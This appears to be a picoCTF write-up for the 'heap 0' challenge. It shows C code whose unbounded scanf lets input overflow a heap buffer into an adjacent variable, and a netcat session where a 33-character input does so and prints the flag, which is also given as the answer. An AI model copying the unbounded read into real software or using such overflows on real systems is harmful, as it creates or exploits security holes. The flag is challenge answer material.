

# heap 0



We can see the `check_win` function will check if `strcmp` return a non-zero result, which `safe_var` is no longer equal `bico`

```c
 if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");
```

Then there is a `write_buffer` function, which writes data to `input_data`

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data); //Stops until the string ends and write into input_data
}
```

There is also a `print_heap` function to help us with the exploit

```c
void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}
```

To experiment, we can try to launch the provided compiled code

```bash
└─$ ./chall 

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x555bf6c72720  ->   pico
+-------------+----------------+
[*]   0x555bf6c72740  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 

```

If we do a simple math, we can find that there is a difference of `0x20` bytes between the addresses of `input_data` and the `safe_var`, which in decimal equals to 32 bytes.

So all we need to do is to input more than 32 characters, and it will overflow the overflow the `safe_var`

 here is how it looks like

```bash
└─$ nc tethys.picoctf.net xxxxx

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5714680ba2b0  ->   pico
+-------------+----------------+
[*]   0x5714680ba2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: 123456789012345678901234567890123

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3

Take a look at my variable: safe_var = 3

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_c3935a08}
```

Flag: `picoCTF{my_first_heap_overflow_c3935a08}`
